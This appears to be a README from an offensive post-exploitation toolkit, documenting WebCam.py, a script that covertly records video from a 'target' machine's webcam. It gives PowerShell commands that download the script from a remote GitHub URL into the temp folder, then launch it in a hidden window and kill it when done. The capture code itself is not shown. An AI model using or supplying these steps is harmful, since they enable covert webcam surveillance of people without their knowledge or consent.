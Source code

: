 ## WebCam.py - Under Develop (Not stable)

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

#Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -ArgumentList "$Env:TMP\WebCam.py"

#Stop capture
Stop-Process -Name "python3.9" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
